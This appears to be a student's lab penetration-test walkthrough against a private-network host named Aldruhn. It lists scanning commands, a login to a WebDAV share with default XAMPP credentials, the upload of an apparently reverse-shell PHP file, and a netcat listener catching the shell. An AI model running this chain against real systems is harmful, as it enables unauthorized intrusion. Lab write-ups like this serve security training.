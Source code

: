﻿# Aldruhn - 192.168.2.12
## Andrea Zonnekus 18758119

sudo nmap -sV -sV -O 192.168.2.12 -oN hosts

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.001.png)

sudo gobuster dir -u 192.168.2.12 -w /usr/share/dirb/wordlists/big.txt -o aldruhn\_http -x php,html,txt,xml

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.002.png)

http://192.168.2.12/security/

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.003.png)



sudo nikto --url 192.168.2.12 -o nikto --Format text

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.004.png)

davtest -url 192.168.2.12/webdav/

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.005.png)

default creds – wampp xampp

cadaver <http://192.168.2.12/webdav/>

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.006.png)

put test.txt

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.007.png)

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.008.png)

put ../192.168.2.12/windows\_best\_64x.php

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.009.png)

http://192.168.2.12/webdav/windows\_best\_64x.php

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.010.png)



nc -lvnp 4444

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.011.png)

whoami

![](aldruhn_alt/Aspose.Words.88e9d01d-8fdc-4dd7-b552-8d7fcf4e904e.012.png)
